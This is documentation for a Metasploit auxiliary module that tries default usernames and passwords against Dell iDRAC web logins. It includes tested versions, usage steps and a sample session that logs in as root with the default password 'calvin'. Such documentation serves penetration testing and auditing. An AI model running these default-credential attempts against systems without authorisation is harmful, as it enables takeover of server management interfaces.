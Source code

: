 ## Vulnerable Application

This module attempts to login to a iDRAC webserver instance using
default username and password.  Tested against Dell Remote Access:

- Controller 6 - Express version 1.50 and 1.85,
- Controller 7 - Enterprise 2.63.60.62
- Controller 8 - Enterprise 2.83.05
- Controller 9 - Enterprise 4.40.00.00

## Verification Steps

1. Setup the Dell iDRAC
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/dell_idrac`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should see attempts to login.

## Options

## Scenarios

### iDRAC Controller 7 - Enterprise 2.63.60.62

```
msf6 > use auxiliary/scanner/http/dell_idrac
msf6 auxiliary(scanner/http/dell_idrac) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/dell_idrac) > set rhosts 222.222.2.22
rhosts => 222.222.2.22
msf6 auxiliary(scanner/http/dell_idrac) > run

[*] Verifying that login page exists at 222.222.2.22
[*] Attempting authentication
[+] https://222.222.2.22:443/ - SUCCESSFUL login for user 'root' with password 'calvin'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password 'calvin'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password '123456'
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'user1' with password 'password'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password 'calvin'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password '123456'
[-] The connection timed out (222.222.2.22:443).
[-] https://222.222.2.22:443/ - Dell iDRAC - Failed to login as 'admin' with password 'password'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/dell_idrac) > creds
Credentials
===========

host          origin        service          public  private  realm  private_type  JtR Format
----          ------        -------          ------  -------  -----  ------------  ----------
222.222.2.22  222.222.2.22  443/tcp (https)  root    calvin          Password      
```
